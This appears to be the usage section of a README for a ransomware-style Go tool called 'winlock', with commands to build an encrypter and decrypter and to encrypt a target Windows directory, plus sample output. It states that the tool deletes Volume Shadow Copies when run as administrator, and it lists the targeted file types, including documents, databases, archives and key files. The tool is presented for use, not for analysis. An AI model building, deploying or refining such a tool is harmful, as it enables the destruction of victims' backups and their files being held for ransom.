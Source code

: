 ## usage

### building

```bash
# build encrypter
cd winlock
go build -o encrypter.exe

# build decrypter  
cd ../dec
go build -o decrypter.exe
```

### encryption

```bash
# encrypt directory (prints hex key to stdout)
.\encrypter.exe -path "C:\target\directory"

# example output:
# f40773ae66dde5d1631e193a967182829f217e708e35ae6191dddc104da66a9c
# found 4 files to encrypt
# encrypted: C:\target\directory\file1.pdf
# encrypted: C:\target\directory\file2.docx
```

**if run as administrator**: automatically deletes vss before encryption

### decryption

```bash
# decrypt with key from encryption output
.\decrypter.exe -path "C:\target\directory" -key f40773ae66dde5d1631e193a967182829f217e708e35ae6191dddc104da66a9c

# example output:
# found 4 files to decrypt
# decrypted: C:\target\directory\file1.pdf
# decrypted: C:\target\directory\file2.docx
# decryption complete!
```

### targeted file extensions

the following extensions are encrypted:
- documents: `.txt`, `.csv`, `.xlsx`, `.pdf`, `.docx`, `.rtf`
- databases: `.sqlite`, `.db`
- archives: `.zip`, `.tar`, `.tar.gz`
- media: `.mp4`
- crypto: `.pem`, `.key`, `.pub`
- binaries: `.bin`
